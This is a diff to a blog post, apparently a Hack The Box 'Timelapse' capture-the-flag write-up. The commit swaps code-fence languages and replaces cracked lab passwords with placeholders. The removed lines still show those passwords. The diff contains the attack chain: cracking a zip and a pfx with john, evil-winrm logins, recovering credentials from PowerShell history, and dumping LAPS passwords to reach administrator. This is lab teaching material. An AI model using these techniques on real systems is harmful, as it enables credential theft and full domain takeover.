

Before and after one commit to rkmsh/rkmsh.github.io, a Jekyll site: the page built from _posts/2022-08-04-timelapse.md, in a window 1280 px wide and 1400 px high, scrolled down 7565 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; cached includes are drawn as plain includes; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
TimeLapse changes

````diff
--- a/_posts/2022-08-04-timelapse.md
+++ b/_posts/2022-08-04-timelapse.md
@@ -73,7 +73,7 @@ smb: \> ls
 
 There are two directories inside `Shares`. Let's look into `Dev`. There is a `winrm_backup.zip` file. Let's download the file locally.
 
-```bash
+```powershell
 smb: \dev\> ls
   .                                   D        0  Mon Oct 25 15:40:06 2021
   ..                                  D        0  Mon Oct 25 15:40:06 2021
@@ -93,7 +93,7 @@ Using default input encoding: UTF-8
 Loaded 1 password hash (PKZIP [32/64])
 Will run 4 OpenMP threads
 Press 'q' or Ctrl-C to abort, almost any other key for status
-supremelegacy    (winrm_backup.zip/legacyy_dev_auth.pfx)
+!!zip_password!!    (winrm_backup.zip/legacyy_dev_auth.pfx)
 ```
 ## Initial foothold
 
@@ -108,7 +108,7 @@ john -w=/usr/share/wordlists/rockyou.txt pfx.hashjohn pfx.hash
 ```bash
 john pfx.hash --show
 
-legacyy_dev_auth.pfx:thuglegacy:::::legacyy_dev_auth.pfx
+legacyy_dev_auth.pfx:!!pfx_password!!:::::legacyy_dev_auth.pfx
 ```
 Now let's generate the private key and the certificate.
 ```bash
@@ -121,7 +121,7 @@ Enter Import Password:
 ```
 
 Now try to connect to the box using `evil-winrm`.
-```bash
+```powershell
 evil-winrm -i 10.10.11.152 -S -k priv-key.pem -c certificate.pem
 
 Evil-WinRM shell v3.3
@@ -136,7 +136,7 @@ timelapse\legacyy
 We got shell into the box as `legacyy`, and we can grab the user flag from the `Desktop` folder of `legacyy`.
 
 ## User enumeration
-```bash
+```powershell
 *Evil-WinRM* PS C:\Users\legacyy\Documents> net user
 
 User accounts for \\
@@ -149,7 +149,7 @@ TRX
 The command completed with one or more errors.
 ```
 `svc_deploy` looks interesting. Let's check its privileges.
-```bash
+```powershell
 *Evil-WinRM* PS C:\Users\legacyy\Documents> net user svc_deploy
 User name                    svc_deploy
 Full Name                    svc_deploy
@@ -184,13 +184,13 @@ We can see that `svc_deploy` is part of `LAPS_Readers`. If we can get shell as `
 
 `winpeas` found the powershell history. Let's look into it.
 
-```bash
+```powershell
 *Evil-WinRM* PS C:\Users\legacyy\Documents> type C:\Users\legacyy\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
 whoami
 ipconfig /all
 netstat -ano |select-string LIST
 $so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
-$p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
+$p = ConvertTo-SecureString '!!svc_deploy_password!!' -AsPlainText -Force
 $c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
 invoke-command -computername localhost -credential $c -port 5986 -usessl -
 SessionOption $so -scriptblock {whoami}
@@ -199,8 +199,8 @@ exit
 ```
 We can see the clear text password for the account `svc_deploy`. Let's connect to it using `evil-winrm`.
 
-```bash
-evil-winrm -i 10.10.11.152 -S -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV'
+```powershell
+evil-winrm -i 10.10.11.152 -S -u svc_deploy -p '!!svc_deploy_password!!'
 
 Evil-WinRM shell v3.3
 
@@ -213,7 +213,7 @@ timelapse\svc_deploy
 ```
 Now we have shell as `svc_deploy`. We will use [Get-LAPSPasswords.ps1](https://github.com/kfosaaen/Get-LAPSPasswords/blob/master/Get-LAPSPasswords.ps1) to dump the `laps` password. Get the script into the box and run it.
 
-```bash
+```powershell
 *Evil-WinRM* PS C:\Users\svc_deploy\Documents> Import-Module .\Get-LAPSPasswords.ps1
 *Evil-WinRM* PS C:\Users\svc_deploy\Documents> Get-LAPSPasswords
 
@@ -221,13 +221,13 @@ Now we have shell as `svc_deploy`. We will use [Get-LAPSPasswords.ps1](https://g
 Hostname   : dc01.timelapse.htb
 Stored     : 1
 Readable   : 1
-Password   : z1.6.gh2MO947b}362/StY.6
+Password   : !!laps_password!!
 Expiration : 8/8/2022 5:39:07 AM
 
 Hostname   : dc01.timelapse.htb
 Stored     : 1
 Readable   : 1
-Password   : z1.6.gh2MO947b}362/StY.6
+Password   : !!laps_password!!
 Expiration : 8/8/2022 5:39:07 AM
 
 Hostname   :
@@ -239,7 +239,7 @@ Expiration : NA
 Hostname   : dc01.timelapse.htb
 Stored     : 1
 Readable   : 1
-Password   : z1.6.gh2MO947b}362/StY.6
+Password   : !!laps_password!!
 Expiration : 8/8/2022 5:39:07 AM
 
 Hostname   :
@@ -257,7 +257,7 @@ Expiration : NA
 Hostname   : dc01.timelapse.htb
 Stored     : 1
 Readable   : 1
-Password   : z1.6.gh2MO947b}362/StY.6
+Password   : !!laps_password!!
 Expiration : 8/8/2022 5:39:07 AM
 
 Hostname   :
@@ -280,8 +280,8 @@ Expiration : NA
 ```
 We got the password. Let's try to connect to the box as `administrator` with the `password` using `evil-winrm`.
 
-```bash
-evil-winrm -i 10.10.11.152 -S -u administrator -p 'z1.6.gh2MO947b}362/StY.6'
+```powershell
+evil-winrm -i 10.10.11.152 -S -u administrator -p '!!laps_password!!'
 
 Evil-WinRM shell v3.3
 
@@ -295,7 +295,7 @@ timelapse\administrator
 ```
 Now we are `administrator`. Get the `root` hash form TRX Desktop.
 
-```bash
+```powershell
 *Evil-WinRM* PS C:\Users> dir TRX\Desktop
 
 
````
Also changed, not shown: other parts of _posts/2022-08-04-timelapse.md (+1 -1 lines).
